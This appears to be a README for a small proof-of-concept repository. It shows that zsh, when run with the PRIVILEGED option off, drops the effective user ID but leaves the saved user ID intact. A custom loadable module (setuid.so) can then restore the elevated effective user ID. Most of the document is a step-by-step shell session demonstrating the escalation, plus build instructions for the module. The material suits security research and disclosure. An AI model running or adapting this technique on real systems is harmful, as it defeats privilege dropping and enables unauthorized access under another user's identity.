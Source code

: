 # zsh-privileged-upgrade
Restore privileges dropped by zsh in --no-PRIVILEGED mode

## Concept
In zsh, when the PRIVILEGED options is turned off, zsh will "[cause] the effective user and group IDs to be set to the real user and group IDs." However, zsh doesn't change the saved uid. Therefore, the user can load a module that restores the euid to what is was before zsh dropped privileges.

## Example
```bash
bash > sudo useradd --no-create-home eric
bash > cp /usr/bin/zsh test-zsh
bash > sudo chown eric:eric test-zsh
bash > sudo chmod +s test-zsh
bash > ls -l test-zsh
-rwsr-sr-x 1 eric eric 865456 Nov 30 15:15 test-zsh
bash > ./test-zsh
zsh > id
uid=1000(sam) gid=1000(sam) euid=1001(eric) egid=1001(eric) groups=1001(eric),3(sys),150(wireshark),967(docker),987(uucp),998(wheel),1000(sam)
zsh > exit
bash > ./test-zsh --no-PRIVILEGED
zsh > id
uid=1000(sam) gid=1000(sam) groups=1000(sam)
zsh > cat /proc/$$/status | grep Uid
Uid:	1000	1000	1001	1000
zsh > ls -l setuid.so
-rwxr-xr-x 1 sam sam 14384 Nov 30 14:48 setuid.so
zsh > MODULE_PATH=. zmodload setuid
module loaded
zsh > setuid 1001
calling setuid with user id 1001
success
zsh > id
uid=1000(sam) gid=1000(sam) euid=1001(eric) groups=1000(sam),3(sys),150(wireshark),967(docker),987(uucp),998(wheel)
```

## Compiling setuid.so
Copy setuid.c and setuid.mdd into zsh-repo/Src/Modules/, then build zsh as normal. `setuid.so` will be built to zsh-repo/Src/Modules/setuid.so.
